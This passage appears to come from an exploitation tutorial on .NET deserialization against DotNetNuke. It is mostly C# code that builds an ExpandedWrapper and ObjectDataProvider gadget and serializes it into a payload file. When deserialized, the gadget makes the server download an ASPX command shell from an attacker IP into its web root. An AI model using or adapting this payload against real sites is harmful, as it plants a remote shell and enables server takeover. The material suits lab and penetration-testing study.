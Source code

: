 ## Using ExpandedWrapper Class
The ExpandedWrapper class represents a generic object type.
This will help us to overcome the issue while attempting to serialize the ObjectDataProvider object.

Our new application will look like this:

```c#
using System;
using System.IO;
using DotNetNuke.Common.Utilities;
using DotNetNuke.Common;
using System.Collections;
using System.Data.Services.Internal;
using System.Windows.Data;

namespace ExpWrapSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            Serialize();
            //Deserialize();
        }

        public static void Deserialize()
        {
            string xmlSource = System.IO.File.ReadAllText("C:\\Users\\Public\\ExpWrap.txt");
            Globals.DeserializeHashTableXml(xmlSource);
        }

        public static void Serialize()
        {
            ExpandedWrapper<FileSystemUtils, ObjectDataProvider> myExpWrap = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();
            myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
            myExpWrap.ProjectedProperty0.ObjectInstance = new FileSystemUtils();
            myExpWrap.ProjectedProperty0.MethodName = "PullFile";
            myExpWrap.ProjectedProperty0.MethodParameters.Add("http://192.168.119.184/cmdasp.aspx");
            myExpWrap.ProjectedProperty0.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/cmdasp.aspx");


            Hashtable table = new Hashtable();
            table["myTableEntry"] = myExpWrap;
            String payload = XmlUtils.SerializeDictionary(table, "profile");
            TextWriter writer = new StreamWriter("C:\\Users\\Public\\ExpWrap.txt");
            writer.Write(payload);
            writer.Close();

            Console.WriteLine("Done!");
        }

    }
}
```
